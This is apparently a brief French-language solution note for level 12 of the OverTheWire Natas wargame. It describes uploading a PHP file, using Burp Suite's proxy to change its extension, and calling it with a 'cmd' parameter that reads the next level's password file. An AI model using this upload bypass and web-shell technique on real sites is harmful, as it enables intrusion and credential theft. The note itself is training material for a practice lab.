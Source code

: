 #uploader solution.php et utiliser le proxy de burps pour changer le filename
#après avoir utiliser le proxy local avec burpssuite aller sur l'adresse suivante :
http://natas12.natas.labs.overthewire.org/upload/[filename].php?cmd=cat /etc/natas_webpass/natas13
